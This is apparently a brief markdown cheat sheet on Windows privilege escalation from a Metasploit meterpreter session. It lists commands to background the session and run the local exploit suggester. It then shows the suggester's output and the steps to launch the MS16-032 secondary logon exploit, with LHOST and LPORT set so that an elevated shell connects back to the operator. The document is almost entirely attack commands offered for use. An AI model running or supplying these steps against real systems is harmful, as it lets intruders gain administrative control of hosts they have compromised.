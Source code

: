 
---

### Use Scanners/Exploit in meterpreter session

```sh
meterpreter > background
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```
#### Pick and use a suggested exploit

```shell
Post module suggests:
   exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   exploit/windows/local/ms10_092_schelevator
```
#### Choose Exploit
```sh
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <id>
set LHOST <your_ip>
set LPORT <your_port>
exploit

```

> [!NOTE] Title
> Choose different `LPORT`, Because you will get new shell session with elevated user.
